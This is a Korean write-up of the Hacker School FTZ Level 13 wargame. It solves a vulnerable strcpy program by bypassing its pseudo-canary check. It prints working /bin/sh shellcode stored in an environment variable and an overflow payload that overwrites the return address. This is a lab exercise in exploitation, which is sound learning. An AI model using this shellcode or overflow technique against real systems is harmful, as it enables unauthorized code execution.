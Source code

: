 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 13"
description: "Do you know the canary?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level13/1.jpg" | relative_url }}' alt='relative'>  

## 1) level13/have no clue 입력해 로그인  
 
<img data-action="zoom" src='{{ "assets/ftz/level13/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdlib.h>

main(int argc, char *argv[])
{
    long i=0x1234567;
    char buf[1024];

    setreuid( 3094, 3094 );
    if(argc > 1)
       strcpy(buf,argv[1]);

    if(i != 0x1234567) {
       printf(" Warnning: Buffer Overflow !!! \n");
       kill(0,11);
    }
}
```

코드를 살펴보니 유사 카나리 기법이 적용된 것 같습니다.  
buf 배열을 NOP으로만 채우면 i값을 비교하는 if 문에 의해 프로그램이 종료될 것입니다.  

그럼 해당 프로그램의 스택 구조를 살펴보겠습니다.  

## 2) 스택의 구조 살펴보기  

<img data-action="zoom" src='{{ "assets/ftz/level13/3.png" | relative_url }}' alt='relative'>  

tmp 디렉토리로 이동하여 hint 코드를 복사해 프로그램을 하나 만들어줍니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/4.png" | relative_url }}' alt='relative'>  

위 그림의 어셈블리어 코드를 살펴보면 buf 배열의 위치는 $ebp에서 1048 byte 떨어진 위치에 있습니다.  

그리고 $ebp-12 주소에 0x1234567 값이 저장되어 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/5.png" | relative_url }}' alt='relative'>  

스택을 도식화하면 위의 그림과 같습니다.  

## 3) 환경 변수에 쉘코드 저장하기  

환경 변수에 쉘코드를 저장하고 해당 환경 변수의 주소를 구하는 방법은 아래와 같습니다.  
환경 변수에 대한 내용과 쉘코드를 환경 변수에 저장하는 이유를 확인하기 위해 <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">level12</a> 내용을 확인해주세요.  

<img data-action="zoom" src='{{ "assets/ftz/level13/6.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

## 4) BOF 수행하기  

앞선 문제들 같은 경우엔 buf 배열 + dummy + SFP 부분은 모두 NOP으로만 채웠겠지만  
dummy 부분에 BOF를 탐지하는 유사 카나리 기법이 적용되어 있기 때문에 이 부분을 우회하도록 하겠습니다.  

위의 스택의 구조를 도식화한 그림을 보면 buf 배열(1024 byte) + dummy(12 byte) + "0x1234567" + dummy(8 byte) + SFP + RET로 스택이 구성되어 있습니다.  
따라서 "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\[EGG 환경 변수 주소\]"를 입력하면 됩니다.  

위에서 EGG 환경 변수 주소를 구했기 때문에 바로 프로그램에 BOF를 시도하겠습니다.  

``` bash
./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x8d\xfc\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/ftz/level13/7.png" | relative_url }}' alt='relative'>  
